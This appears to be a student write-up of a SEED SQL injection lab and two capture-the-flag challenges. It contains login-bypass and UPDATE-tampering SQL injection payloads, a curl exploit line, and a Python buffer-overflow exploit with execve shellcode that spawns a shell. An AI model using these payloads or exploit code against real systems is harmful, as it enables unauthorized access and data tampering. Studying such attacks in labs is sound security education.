 # SQL Injection

## Task 1
To get all the data associated to Alice we just needed to run this simple query: SELECT * FROM credential WHERE Name = 'Alice';

## Task 2

### Task 2.1
To login as the admin we can just insert on the username the following sentence: admin' OR '
This will change the query so that the hashed password is irrelevant.

### Task 2.2
On the terminal, if we run the command "$ curl www.seed-server.com/unsafe_home.php?username=admin%27or%27 " we can login as an admin. On the terminal will be printed the html code with the data of all users.

### Task 2.3
MySQL has a multileoption that prevents more than one sql statement. Basically with this option enabled, everytime we put a ';' (essencial to end a statement and start a new one) all of our input that goes after that gets commented, which will lead to a semantic error because our query will lose some important content and specific chars, ending up not corresponding to a correct sql statement when complemented with the sql code from the webpage.

## Task 3

### Task 3.1
To modify Alice's salary we need to, on the 'Edit Profile' page, insert in one box (for example in the username one) the following sentence: ',salary = '40000
This will include the variable 'salary' on the update statement and we can assign any value we want (int this case we updated the value from 20000 to 40000, doubling Alice's salary).

### Task 3.2
As Alice, to change Boby's salary we need to change the 'id' on the 'where' clause. So to change Boby's salary to 1 dollar we just need to insert the following sentence on any box (for example in the username one): ',salary = '1' WHERE ID = '2';#
This will insert the 'salary' variable on the update statement (just like in task 3.1) and the id used will be 2 (Boby's id, instead of Alice's). The inputed sentence also needs to have a '#' in order to comment the rest of the update statement, so it is overwritten by our code, otherwise we won't be able to change Boby's salary.

--

## Challenge 1
The program has a SQL injection vulnerability.
To login as the admin, we just need to do the same thing as in the Task 2. So, all that was needed was to insert on the username: admin' Or'
And we also needed to insert something on the password field since the website does not allow this field to be left empty, but the content it's not relevant at all.
That way, the $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'"; becomes $query = "SELECT username FROM user WHERE username = 'admin' Or'' AND password = '".$password."'";
That way we can log in as the admin without knowing its password.
By logging in as the admin, we could see the flag{44e9441ad346fcdb0f0850669532ec10}.

## Challenge 2
By running the 'checksec' command, we found these protection properties:
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segment
Maeby the most important two things to notice are that the stack does not have a canary, which makes it easy to overwrite, and that the program has a rwx segment, which will make it possible to launch a shell and execute commands.
The program consists in a buffer with 100 bytes, that will be filled with the user's input - "gets(buffer);" (line 12). This is the line where the program's vulnerability lays on.
This vulnerability allows us to explore a buffer overflow and consequently write on the stack whatever we want. We can insert a shell code and then overwrite the return address to execute that shell code, which will give us a bash and full control.
To do these, we made an exploit (exploit_ctf2_semana8.py) that connects with the program. It receives the inicial text, indicating the buffer address (that changes in each execution) and asking us to give it some input. We will need the buffer's address to situate us in the stack, so we stored it:
    received_text = p.recvuntil(b"input:")
    buf = received_text[44:54]
    nuf = int(buf,16)
Then, we created a variable with the shell code:
    shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
    ).encode('latin-1')
That shell code will be placed on the beggining of the buffer and after the 100 bytes from the buffer we will insert on the stack the buffer's address multiple times in steps of 4 bytes to make sure we overwrite the return address.
    start = 0
    content[start:start + len(shellcode)] = shellcode
    ret = nuf
    L = 4
    for offset in range(100,200,4):
      content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
By doing so, we are able to execute the code that is in the beggining of the buffer, the shell code.
By sending the 'content' as the program's input, we launched a bash, and to get the flag we just needed to execute the following command: "cat flag.txt"
This will print the flag on the terminal.
flag{f817ca6b92dc4edb428be0046c40b85d}

